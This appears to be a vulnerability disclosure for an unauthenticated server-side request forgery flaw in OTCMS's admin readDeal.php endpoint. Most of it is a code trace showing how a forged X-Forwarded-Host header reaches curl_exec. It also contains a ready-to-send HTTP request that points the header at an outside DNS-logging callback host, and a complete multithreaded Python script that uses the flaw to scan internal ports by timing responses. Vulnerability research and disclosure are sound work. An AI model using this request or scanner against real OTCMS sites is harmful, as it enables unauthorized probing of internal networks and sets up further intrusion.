









# Unauthorized SSRF Vulnerability in OTCMS at /admin/readDeal.php?mudi=checkHomeHtml

Code Analysis:
First, locate the vulnerability trigger point:
/admin/readDeal.php?mudi=checkHomeHtml, passing the $mudi parameter triggers the CheckHomeHtml() function without any authentication

```
switch ($mudi){
	case 'updateWebCache':
		UpdateWebCache();
		break;

	case 'clearWebCache':
		ClearWebCache();
		break;

	case 'updateBackupCall':
		UpdateBackupCall();
		break;

	case 'checkEditorMode':
		CheckEditorMode();
		break;

	case 'readQrCode':
		ReadQrCode();
		break;

	case 'checkHomeHtml':
		CheckHomeHtml();
		break;

	default:
		die('err');
}
```
Enter CheckHomeHtml() and analyze two key parameters $beforeURL and $homeHtmlStr in the code,
```
function CheckHomeHtml(){
	global $systemArr;
	$beforeURL	= GetUrl::CurrDir(1);
	$webHtml = new WebHtml();
	$homeHtmlStr = $webHtml->GetCode($beforeURL);
	if (strpos($homeHtmlStr,'<!-- Html For') !== false){
		JS::AlertEnd('The website homepage is a static page.');
	}else{
		JS::AlertEnd('The website homepage is not a static page, your static page name is '. $systemArr['SYS_htmlHomeName'] .'.\n1. Check if the frontend '. $systemArr['SYS_htmlHomeName'] .' file exists.\n2. The default homepage '. $systemArr['SYS_htmlHomeName'] .' should take priority over index.php');
	}
}
```
First analyze $beforeURL, follow up with GetUrl::CurrDir(1)
inc/classGetUrl.php
```
	public static function CurrDir($dirRank=0){
		$currUrl = self::Curr();
		for ($udi=0; $udi<=$dirRank; $udi++){
			$currUrl=substr($currUrl,0,strrpos($currUrl,'/'));
		}
		return $currUrl .'/';

	}
```
Follow up with self::Curr() again, you can see that this is to return a complete URL structure, next follow up to analyze these three functions self::HttpHead(), self::HttpHost(), self::HttpSelf()
```
	// Get current URL, excluding ? and parameters
	public static function Curr(){
		// $SERVER_PORT = self::Port();
		// $SER_HOST = $_SERVER['SERVER_NAME'] . $SERVER_PORT;
		$SER_HOST = self::HttpHost();
		return self::HttpHead() . $SER_HOST . self::HttpSelf();
	}
```
Analysis shows that the control of the returned URL structure is based on http or https and setting the host through HTTP_X_FORWARDED_HOST, and finally obtaining $_SERVER['PHP_SELF'] has control possibilities
```
public static function HttpHost(){
		// return isset($_SERVER['HTTP_X_FORWARDED_HOST']) ? $_SERVER['HTTP_X_FORWARDED_HOST'] : (isset($_SERVER['HTTP_HOST']) ? $_SERVER['HTTP_HOST'] : '');
		if ( isset($_SERVER['HTTP_X_FORWARDED_HOST']) ){
			$retStr = $_SERVER['HTTP_X_FORWARDED_HOST'];
		}elseif ( isset($_SERVER['HTTP_HOST']) ){
			$retStr = $_SERVER['HTTP_HOST'];
		}else{
			$retStr = $_SERVER['SERVER_NAME'] . ($_SERVER['SERVER_PORT']=='80' ? '' : ':'. $_SERVER['SERVER_PORT']);
		}
		return $retStr;
	}

	public static function HttpSelf(){
		return $_SERVER['PHP_SELF'] ? $_SERVER['PHP_SELF'] : $_SERVER['SCRIPT_NAME'];
	}

	// Get URL protocol http:// or https://
	public static function HttpHead($skip=false){
		global $systemArr;
		if (empty($systemArr)){ $systemArr = Cache::PhpFile('system'); }

		if (in_array($systemArr['SYS_urlHead'],array('http','https')) && $skip==false){
			return $systemArr['SYS_urlHead'] .'://';
		}else{
			// return ((isset($_SERVER['HTTPS']) && $_SERVER['HTTPS'] == 'on') || (isset($_SERVER['HTTP_X_FORWARDED_PROTO']) && $_SERVER['HTTP_X_FORWARDED_PROTO'] == 'https')) ? 'https://' : 'http://';
			if ( ! empty($_SERVER['HTTPS']) && strtolower($_SERVER['HTTPS']) !== 'off'){
				return 'https://';
			}elseif (isset($_SERVER['HTTP_X_FORWARDED_PROTO']) && $_SERVER['HTTP_X_FORWARDED_PROTO'] === 'https'){
				return 'https://';
			}elseif ( ! empty($_SERVER['HTTP_FRONT_END_HTTPS']) && strtolower($_SERVER['HTTP_FRONT_END_HTTPS']) !== 'off'){
				return 'https://';
			}else{
				return 'http://';
			}
		}
	}

```
After analyzing $beforeURL, next analyze the $homeHtmlStr parameter, follow up with $webHtml->GetCode()
inc/classWebHtml.php
Here $judProxy defaults to false, so it can smoothly enter the if branch to trigger ReqUrl::UseAuto()


```
	// Get webpage source code (limit read time)
	// URL: webpage address; charset: encoding
	function GetCode($URL, $charset='UTF-8'){
		global $DB,$systemArr;

		if (empty($URL)){
			$this->mErrStr='URL error';
			return 'False';
		}
		
		class_exists('ReqUrl',false) or require(OT_ROOT .'inc/classReqUrl.php');

		if ($this->judProxy && strlen($systemArr['SYS_proxyIpList']) > 8){
			$proxyIp = '';
			$proxyPort = 80;
			$currArr = Area::ListPoint('proxyIp',$systemArr['SYS_proxyIpList'],'arr');
			$oneArr = explode(':', $currArr['str']);
			$proxyIp = $oneArr[0];
			if (count($oneArr) >= 2){ $proxyPort = $oneArr[1]; }
			$this->proxyIp =  '【第'. (intval($currArr['point'])+1) .'行】'. $proxyIp .':'. $proxyPort;

			$retArr = ReqUrl::ProxyCurl('GET', $URL, array('ip'=>$proxyIp,'port'=>$proxyPort), $charset);
			if ($retArr['res']){ $this->proxyErr = ''; }else{ $this->proxyErr = $retArr['note']; }
			// print_r($retArr);die('IP:'. $proxyIp .':'. $proxyPort);
		}else{
			$retArr = ReqUrl::UseAuto($this->mGetUrlMode, 'GET', $URL, $charset);
		}
		if (! $retArr['res']){ $retStr='False'; }else{ $retStr=$retArr['note']; }

		return $retStr;
	}
```
Check ReqUrl::UseAuto(), you can find that $this->mGetUrlMode was passed in the previous step to select entering switch,

Track $getUrlMode, find that it will get the default value 0

At this time it will enter the default of switch, this CMS will enable curl by default, so it triggers self::UseCurl($method, $url, $charset, $dataArr)
inc/classReqUrl.php
```
public static function UseAuto($seMode, $method, $url, $charset='UTF-8', $dataArr=array(), $retMode=''){
		$retArr = array('res'=>false, 'note'=>'');

		switch ($seMode){
			case 1:	// Snoopy plugin
				$retArr = self::UseSnoopy($method, $url, $charset, $dataArr);
				break;
		
			case 2:	// curl mode
				$retArr = self::UseCurl($method, $url, $charset, $dataArr);
				break;
		
			case 3:	// fsockopen mode
				$retArr = self::UseFsockopen($method, $url, $charset, $dataArr);
				break;

			case 4:	// fopen mode
				$retArr = self::UseFopen($method, $url, $charset, $dataArr);
				break;

			default :
				if (extension_loaded('curl')){
					$retArr = self::UseCurl($method, $url, $charset, $dataArr);
					//echo('curl['. $retArr['note'] .']<br />');
				}
				if ($retArr['res'] == false && function_exists('stream_socket_client')){
					$retArr = self::UseSnoopy($method, $url, $charset, $dataArr);
					//echo('Snoopy['. $retArr['note'] .']<br />');
				}
				if ($retArr['res'] == false && function_exists('fsockopen')){
					$retArr = self::UseFsockopen($method, $url, $charset, $dataArr);
					//echo('fsockopen['. $retArr['note'] .']<br />');
				}
				if ($retArr['res'] == false && (ini_get('allow_url_fopen') == 1 || strtolower(ini_get('allow_url_fopen')) == 'on')){
					$retArr = self::UseFopen($method, $url, $charset, $dataArr);
					//echo('fopen['. $retArr['note'] .']<br />');
				}
				break;
		}

		if ($retMode == 'res'){
			return $retArr['res'];
		}elseif ($retMode == 'note'){
			return $retArr['note'];
		}else{
			return $retArr;
		}
	}
```
Follow up with UseCurl() method, analysis finds that it will eventually trigger curl_exec(), which will make a request to the passed URL, causing SSRF
```
	// Get page source code 2 curl mode
	public static function UseCurl($method, $url, $charset='UTF-8', $dataArr=array(), $run301=true){
		if (empty($url)){
			return array('res'=>false, 'note'=>'UseCurl：URL is empty');
		}

		$ch = curl_init();
		curl_setopt($ch, CURLOPT_USERAGENT,'Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.198 Safari/537.36'); 
		curl_setopt($ch, CURLOPT_URL, $url);
		curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
		curl_setopt($ch, CURLOPT_CONNECTTIMEOUT, 80);	// Response time
		curl_setopt($ch ,CURLOPT_TIMEOUT, 150);			// Set timeout
		// HTTP protocol used, CURL_HTTP_VERSION_NONE (let curl decide), CURL_HTTP_VERSION_1_0 (HTTP/1.0), CURL_HTTP_VERSION_1_1 (HTTP/1.1)
		curl_setopt($ch, CURLOPT_HTTP_VERSION, CURL_HTTP_VERSION_1_0);
		// curl_setopt($ch, CURLOPT_MAXREDIRS,20);		// Allow how many redirects
		// curl_setopt($ch, CURLOPT_FOLLOWLOCATION,1);	// Automatically fetch the page after 301 redirect
		if (substr(strtolower($url),0,8) == 'https://'){
			curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, false);	// Skip certificate check  
			curl_setopt($ch, CURLOPT_SSL_VERIFYHOST, 2);		// Check if SSL encryption algorithm exists in certificate
		}
		if (strtoupper($method) == 'POST'){
			if (is_array($dataArr)){
				$newData = http_build_query($dataArr);	// Reverse function parse_str()
			}else{
				$newData = $dataArr;
			}
			curl_setopt($ch, CURLOPT_POST, 1);
			curl_setopt($ch, CURLOPT_POSTFIELDS, $newData);
		}
		$data = curl_exec($ch);

		// Check if an error occurred
		if(curl_errno($ch)){ return array('res'=>false, 'note'=>'UseCurl：Error occurred（'. curl_error($ch) .'）'); }

		// Check HTML return status
		$headArr = curl_getinfo($ch);

		curl_close($ch);

		if ($run301 && in_array($headArr['http_code'],array(301,302))){
			return self::UseCurl($method, $headArr['redirect_url'], $charset, $dataArr, false);
		}
		// if($headArr['http_code'] != 200){ return array('res'=>false, 'note'=>'UseCurl：Return status'. $headArr['http_code']); }

		if (strlen($data) == 0){ return array('res'=>false, 'note'=>'UseCurl：Retrieved content is empty'); }

		$siteCharset = strtoupper(OT_Charset);
		if ($siteCharset=='GB2312'){ $siteCharset='GBK'; }
		if ($charset != $siteCharset){
			$data = iconv($charset,OT_Charset .'//IGNORE',$data);
		}
		return array('res'=>true, 'note'=>$data);
	}
```

Reproduce locally
Construct request packet:
```
GET /admin/readDeal.php?mudi=checkHomeHtml HTTP/1.1
Host: otcms
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/144.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
x-forwarded-host: 111111111.56b74aa0.log.dnslog.pp.ua
Connection: keep-alive


```



Simulate internal network information detection locally
Start multiple Python web services on Win11
python -m http.server 4455 --bind 127.0.0.1
python -m http.server 5566 --bind 127.0.0.1
python -m http.server 6677 --bind 127.0.0.1
python -m http.server 7788 --bind 127.0.0.1

Use script to judge the opening status of internal network HTTP service ports based on return time
```
#!/usr/bin/env python3

import sys
import time
import concurrent.futures
import requests
import re


def scan_port_with_requests(target_ip, port, timeout=4):
    """Scan ports using requests"""
    headers = {'X-Forwarded-Host': f'{target_ip}:{port}'}

    try:
        start = time.time()
        response = requests.get(
            'http://otcms/admin/readDeal.php?mudi=checkHomeHtml',
            headers=headers,
            timeout=timeout,
            verify=False
        )
        elapsed = (time.time() - start) * 1000

        if elapsed < timeout * 1000 and response.status_code < 500:
            return port, round(elapsed, 2)

    except requests.RequestException:
        pass

    return None


def parse_ports(port_arg):
    """Parse port parameters, supports single port, port range, port list"""
    ports = []
    
    # If it's port range format (e.g., 80-100)
    if '-' in port_arg:
        try:
            start, end = map(int, port_arg.split('-'))
            if start <= end and 1 <= start <= 65535 and 1 <= end <= 65535:
                ports = list(range(start, end + 1))
            else:
                print(f"❌ Invalid port range: {port_arg}")
                return None
        except ValueError:
            print(f"❌ Port range format error: {port_arg}")
            return None
    
    # If it's port list format (e.g., 22,80,443)
    elif ',' in port_arg:
        try:
            port_list = port_arg.split(',')
            for p in port_list:
                port = int(p.strip())
                if 1 <= port <= 65535:
                    ports.append(port)
                else:
                    print(f"❌ Port number out of range (1-65535): {port}")
                    return None
        except ValueError:
            print(f"❌ Port list format error: {port_arg}")
            return None
    
    # Single port
    else:
        try:
            port = int(port_arg)
            if 1 <= port <= 65535:
                ports = [port]
            else:
                print(f"❌ Port number out of range (1-65535): {port}")
                return None
        except ValueError:
            print(f"❌ Port format error: {port_arg}")
            return None
    
    return sorted(list(set(ports)))  # Deduplicate and sort


def fast_scan(target_ip, ports=None, timeout=4, threads=50):
    """Fast scan port list"""
    if ports is None:
        # Default scan common ports
        ports = [
            21, 22, 23, 25, 53, 80, 443, 445, 8080, 8443,
            3306, 3389, 5900, 6379, 27017, 5432
        ]
        print(f"⚡ Scanning common ports of {target_ip}...")
    else:
        print(f"⚡ Scanning {target_ip}...")

    with concurrent.futures.ThreadPoolExecutor(max_workers=threads) as executor:
        futures = []

        for port in ports:
            futures.append(
                executor.submit(scan_port_with_requests, target_ip, port, timeout)
            )

        for future in concurrent.futures.as_completed(futures):
            result = future.result()
            if result:
                port, rt = result
                print(f"✅ {port}: {rt}ms")


# Command line interface
if __name__ == "__main__":
    if len(sys.argv) < 2:
        print("Usage:")
        print("  python ssrf.py <Target IP>                    # Scan common ports")
        print("  python ssrf.py <Target IP> <Port number>          # Scan single port")
        print("  python ssrf.py <Target IP> <Start port>-<End port>  # Scan port range")
        print("  python ssrf.py <Target IP> <Port1>,<Port2>,...   # Scan multiple specified ports")
        print()
        print("Examples:")
        print("  python ssrf.py 192.168.1.1              # Scan common ports")
        print("  python ssrf.py 192.168.1.1 80           # Scan port 80")
        print("  python ssrf.py 192.168.1.1 80-100       # Scan ports 80 to 100")
        print("  python ssrf.py 192.168.1.1 22,80,443    # Scan ports 22,80,443")
        sys.exit(1)
    
    ip = sys.argv[1]
    
    # Verify IP address format
    ip_pattern = r'^\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}$'
    if not re.match(ip_pattern, ip):
        print(f"❌ Invalid IP address format: {ip}")
        sys.exit(1)
    
    # Parse port parameters
    if len(sys.argv) > 2:
        port_arg = sys.argv[2]
        ports = parse_ports(port_arg)
        if ports is None:
            sys.exit(1)
    else:
        ports = None  # Use default common ports
    
    # Start scanning
    fast_scan(ip, ports=ports)
```








